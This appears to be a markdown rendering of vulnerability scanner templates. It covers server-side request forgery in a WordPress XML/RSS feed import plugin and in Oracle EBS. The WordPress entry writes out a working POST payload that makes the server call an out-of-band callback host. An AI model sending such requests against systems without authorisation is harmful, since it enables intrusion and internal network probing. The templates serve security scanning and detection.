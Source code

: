 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. dns

**Type - word**

- part - location
- words
  1. {{BaseURL}}/AdminTools/querybuilder/logonform.jsp

---

# Import XML & RSS Feeds WordPress Plugin <= 2.0.1 Server-Side Request Forgery

## Description

- WordPress plugin Import XML and RSS Feeds (import-xml-feed) plugin 2.0.1 contains a server-side request forgery (SSRF) vulnerability via the data parameter in a moove_read_xml action.
- severity - critical
- tags - cve,cve2020,wordpress,wp-plugin,ssrf

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=moove_read_xml
  - type=url&data=http%3A%2F%2F{{interactsh-url}}%2F&xmlaction=preview&node=0

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Unauthenticated Blind SSRF in Oracle EBS

## Description

- https://medium.com/@x41x41x41/unauthenticated-ssrf-in-oracle-ebs-765bd789a145
- severity - medium
- tags - cve,cve2018,oracle,ebs,ssrf,blind

